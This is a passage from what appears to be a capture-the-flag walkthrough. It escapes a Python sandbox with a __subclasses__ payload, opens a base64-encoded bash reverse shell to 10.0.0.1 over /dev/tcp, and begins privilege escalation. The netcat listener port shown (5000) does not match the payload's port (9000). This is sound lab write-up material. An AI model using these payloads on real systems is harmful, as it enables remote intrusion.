 <pre>
bash -i >& /dev/tcp/10.0.0.1/9000 0>&1
</pre>

<p>This, however, did not work. It is probably because the special characters are misinterpreted. This can be fixed by encoding our payload in base64 and then decoding it. First let's encode it:</p>

<pre>
echo -n 'bash  -i >& /dev/tcp/10.0.0.1/9000  0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMC4wLjEvOTAwMCAgMD4mMSAg
</pre>
<p>Note that I played a bit with spaces to make sure there are no special characters in my base64 payload.</p>
<p>Don't forget to set a netcat listener:</p>
<pre>
nc -lnvp 5000
</pre>
<p>In the Python environment, I used the following payload:</p>
<pre>
[].__class__.__base__.__subclasses__()[317](['bash', '-c', 'echo "YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMC4wLjEvOTAwMCAgMD4mMSAg" | base64 -d | bash'])
</pre>
<p>Explanation: bash get executed with the "-c" flag which allows commands to be executed from the string that follows. The b64 string is being decoded and passed to bash. This allows us to circumvent the use of special characters directly in the shell (they are bing passed as a string decoded form out b64).</p>

<p>Going back to our netcat listener, we received a shell where we can find the user.txt flag.</p>

<pre>
app-production@code:~/app$ cd ..
cd ..
app-production@code:~$ ls
ls
app
user.txt
app-production@code:~$ cat user.txt
</pre>

<h2>Privilege Escalation - Gaining root</h2>

<p>Exploring the machine a bit further, I find a app.py script which mentions a database being used. As said in the beginning of this walkthrough, this could be interesting to extract user credentials:</p>

<pre>
cat app.py
from flask import Flask, render_template,render_template_string, request, jsonify, redirect, url_for, session, flash
from flask_sqlalchemy import SQLAlchemy
import sys
import io
import os
import hashlib
